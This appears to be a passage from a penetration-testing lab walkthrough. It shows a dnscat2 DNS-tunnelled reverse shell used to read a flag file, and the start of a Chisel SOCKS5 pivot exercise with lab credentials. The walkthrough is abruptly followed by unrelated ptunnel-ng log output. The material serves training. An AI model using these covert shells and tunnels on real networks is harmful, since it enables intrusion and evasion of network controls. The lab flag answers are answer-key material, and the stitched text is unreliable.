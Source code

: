 Students will notice that a new session will be opened/received on the `dnscat2` server run on `Pwnbox`/`PMVPN`:

```
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
```

At last, students need to drop into a shell with the `window` command and print out the contents flag file "flag.txt" under the `C:\Users\htb-student\Documents\` directory, to attain `AC@tinth3Tunnel`:

Code: cmd

```cmd
window -i 1
type C:\Users\htb-student\Documents\flag.txt
```

```
window -i 1
New window created: 1

<SNIP>

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1> type C:\Users\htb-student\Documents\flag.txt
AC@tinth3Tunnel
```

Answer: `AC@tinth3Tunnel`

# SOCKS5 Tunneling with Chisel

## Question 1

### "Using the concepts taught in this section, connect to the target and establish a SOCKS5 Tunnel that can be used to RDP into the domain controller (172.16.5.19, victor:pass@123). Submit the contents of C:\\Users\\victor\\Documents\\flag.txt as the answer."

On `Pwnbox`/`PMVPN`, students need to download an older version of `Chisel` (such as version `1.7.6_linux_amd64`) to their attack host:

Code: shell

```shell
wget -q https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz
gunzip chisel_1.7.6_linux_amd64.gz
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.